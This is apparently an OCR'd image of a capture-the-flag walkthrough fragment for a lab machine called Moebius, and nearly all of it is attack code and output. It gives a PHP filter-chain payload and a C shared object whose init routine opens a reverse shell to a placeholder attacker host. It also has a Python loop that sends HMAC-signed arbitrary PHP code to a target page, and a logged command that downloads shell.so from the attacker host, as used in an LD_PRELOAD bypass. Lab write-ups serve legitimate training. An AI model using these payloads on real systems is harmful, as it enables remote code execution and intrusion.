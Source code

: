```bash
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|co.............de|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

<h3>shell.c</h3>

```bash
:~/Moebius# cat shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  system("bash -c \"bash -i >& /dev/tcp/AttackIP/AttackPort0>&1\"");
}
```

```bash
:~/Moebius# gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

<h3>PHP script to execute arbitrary code on the Target</h3>

```bash
import hmac
import hashlib
import requests

target_url = "http://TargetIP/image.php" # change the IP address

secret_key = b"an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW"
path = "php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|co.............de|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp".encode()  # replace with the output of php_filter_chain_generator.py
h = hmac.new(secret_key, path, hashlib.sha256)
signature = h.hexdigest()

while True:
    params = {
        "hash": signature,
        "path": path,
        "0": input("code> ")
    }
    resp = requests.get(target_url, params=params, timeout=5)
    text = resp.text
    print(text)
```


```bash
:~/Moebius# python3 execute_code.py
code> system("id);
<br />
<b>Parse error</b>:  Unclosed '(' in <b>php://filter/convert.iconv.UTF8.CSISO2022KR...
...
code> echo init_get('disable_functions');
<br />
<b>Fatal error</b>:  Uncaught Error: Call to undefined function init_get() in php://filter/convert.iconv.UTF8.CSISO2022KR...
...
code> $var = curl_init('http://AttackIP:8000/shell.so');curl_setopt($var, CURLOPT_RETURNTRANSFER, true);file_put_contents('/tmp/shell.so', curl_exec($var)); curl_close($var);
```
